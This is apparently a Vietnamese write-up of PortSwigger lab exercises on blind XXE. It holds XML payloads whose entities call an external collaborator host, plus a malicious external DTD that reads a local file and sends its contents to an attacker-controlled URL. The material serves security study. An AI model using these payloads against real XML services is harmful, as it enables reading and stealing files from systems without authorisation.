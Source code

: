 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY % xxe SYSTEM "http://bbqig22iesj1hsf6pkyarrtdf4lv9pxe.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

![image](https://hackmd.io/_uploads/ByjN9F2np.png)

- Đầu tiên như bài trên sẽ bị chặn
- ![image](https://hackmd.io/_uploads/HymQjY3na.png)


- Thay thành payload như trên:
- ![image](https://hackmd.io/_uploads/HyOYsF2ha.png)
- Chúng ta sẽ nhận được thông tin parse error nhưng trước lúc này ở DNS đã được trỏ tới và ta nhận được request
![image](https://hackmd.io/_uploads/Bk63jthnT.png)

- Vậy là chúng ta đã solve được bài lab
- ![image](https://hackmd.io/_uploads/rJE0sK22p.png)


## [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://)

- chức năng của bài này cũng tương tự như những bài trên và có yêu cầu là lấy được nội dung của file etc/passwd
- Đầu tiên ta có thể thấy là đây là 1 bài blind nên sẽ không thể lấy được kết quả trực tiếp
- Bây giờ dúng ta sẽ sử dụng 1 file DTD ở sever khác và load nó vào trong sever mình, kĩ thuật này có nhiều điểm tối ưu như là vượt qua được các black list của sever
- Payload :-1: 
- Trên sever của mình tạo 1 file 
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

- theo cách hiểu của mình thì file này sẽ khởi tạo 2 entity :-1: 
- Đầu tiên là entity file sẽ lấy nội dung của file etc/passwd
- Tiếp theo là entity eval trong đó định nghĩa 1 paramter entity %attack; có chức năng query đến domain attacker đang host kèm theo nội dung của %file; thông qua tham số x.


![image](https://hackmd.io/_uploads/SJrP152hT.png)

- bây giờ thì khai báo dtd này ở trong tài liệu xml của chúng ta
- Payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a9e001d04f751b9805d43df01cf0040.exploit-server.net/e.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
- Nhận được kết quả parse error
- ![image](https://hackmd.io/_uploads/Skrxlq3n6.png)
